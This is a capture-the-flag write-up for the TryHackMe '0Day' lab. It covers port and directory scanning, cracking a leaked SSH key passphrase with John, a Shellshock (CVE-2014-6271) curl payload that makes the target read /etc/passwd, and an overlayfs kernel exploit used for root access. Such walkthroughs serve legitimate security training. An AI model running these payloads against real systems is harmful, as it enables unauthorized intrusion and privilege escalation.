# [TryHackme:0Day](https://tryhackme.com/room/0day)
## Enumeration

Start with port scan with *Nmap*
```bash
export IP=<target>
sudo nmap -Pn -T4 $IP
```
**Result**



Discovering http server source page there is nothing unusual. Fuzzing web directories I found this pages. 

```bash
gobuster dir -u <target> -w <wordList> -t 64 
```



this directories have a lot of juice, inside `/backup` page I found SSH key



we can use it to login to machine. but we need valid user to login. Inside `/secret` page I found this cute turtle 



Maybe this is the user name ? I will give it try. 

 
```bash
# change id_rsa to valid permissions
chmod 600 id_rsa
# Login
ssh -i id_rsa turtle@$IP
```



the SSH key need passphrase we can crack it using John

```bash
ssh2john id_rsa > crackme.txt
john --wordlist=<wordList> crackme.txt
```



Passphrase founded but also it require password to login. Doing more enumeration. Using *Nikto* tool to scan server.

```bash
nikto -h <target>
```

**Result**



Target is vulnerable to `CVE-2014-6271` , we can abuse this vulnerability with this payload

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://$IP:80/cgi-bin/test.cgi
```



we can establish reverse shell with bash. 


## initial access 



## User flag



## Enumeration
Using *LinPEAS* to enumerate the target machine .



found this vulnerable kernel with [CVE-2015-1328](https://www.exploit-db.com/exploits/37292) we can use it to privilege escalation.  Move exploit to target machine then compile it

```bash
gcc exp.c -o exp
./exp
```



## Root flag




